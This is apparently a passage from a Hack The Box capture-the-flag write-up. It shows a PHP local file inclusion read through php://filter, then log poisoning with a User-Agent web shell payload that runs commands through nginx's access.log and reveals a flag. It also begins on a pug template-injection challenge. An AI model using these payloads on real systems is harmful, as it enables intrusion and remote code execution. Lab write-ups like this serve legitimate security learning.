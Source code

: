 ​	?page=php://filter/convert.base64-encode/resource=index.php

and decode the resulting base64 we see

```php
<?php
if ($_GET['page']) {
    include($_GET['page']);
} else {
    header("Location: /?page=home.php");
```


which confirms our theory. Now we just need a way to get some malicious PHP onto the server to execute. Fuzzing for various files we find the *access.log* file at */var/log/nginx/access.log*

This file records the user-agent and referrer headers. So now we have our method to get malicious code on the server. We simply make a request with the header

​	User-Agent: \<?php system($_GET['cmd']); ?>

which will then be placed in the access.log file and ran when we hit it with the LFI

​	/?page=/var/log/nginx/access.log&cmd=ls

we can then enumerate the file system and find the flag one directory up

​	/?page=/var/log/nginx/access.log&cmd=cat ../flag1lVJu

Flag: HTB{m1ss10n_4c0mpl1sh3d}

### IMF - The Search

examining the source code we see the app is using pug for templating and in the */routs/default.route.js* file the following function

```javascript
defaultRoutes.route('/').post( (req, res) => {
    let name = req.body.name;
    let search = name.replace(/[.*+?^${}()|[\]\\]/g, '\\$&');
    if (typeof name !== 'undefined' && name != "") {
        query = { name : {$regex: search, $options: "i"} };
        Agent.find(query,  (err, agents) => {
            if (err) {
                console.log(err);
                return res.json(err);
            } else {
                return res.render('index', { agents: agents, name: pug.render(`| ${name}`) });
            }
        });
    } else {
        return res.redirect('/');
    }
});
```

which controls how a post request is handled, directly renders our unsanitized input (the filter in place is only for the db query).
